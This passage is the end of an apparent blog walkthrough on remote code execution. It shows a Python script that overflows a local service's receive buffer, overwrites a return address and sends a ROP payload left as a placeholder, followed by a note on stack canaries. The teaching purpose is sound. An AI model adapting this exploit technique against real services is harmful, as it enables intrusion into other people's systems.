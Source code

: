 ```
#!/usr/bin/env python

import socket, struct, time

rop_payload = '252ba693ff7f0000020000...' // put your ROP payload here

s = socket.create_connection(('127.0.0.1', 2000))
s.send('x' * 512) # fill _recvBuffer
s.send('y' * 4)   # fill _recvBytes alignment padding
s.send(struct.pack('<Q', 512+8*20)) # this should be the offset of a return address
time.sleep(1) # send the rest after _recvBytes has been overwritten
s.send(rop_payload.decode('hex') + '\n')
print('package deployed')
response = s.recv(4096)
if response:
    print(response.encode('hex'))

```

And there you have it! A fully developed remote code execution exploit on a modern OS.

I feel I would be amiss if I didn't at least mention one other common security measure we didn't have to talk about here: the [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries). This particular vulnerability made it easy to just jump right over the stack canary, but they do often come into play with these kinds of things.

You can find all of the files I used in [this GitHub repo](https://github.com/techbloglol/rce-exploit-walkthrough). Feel free to contribute solutions for other platforms!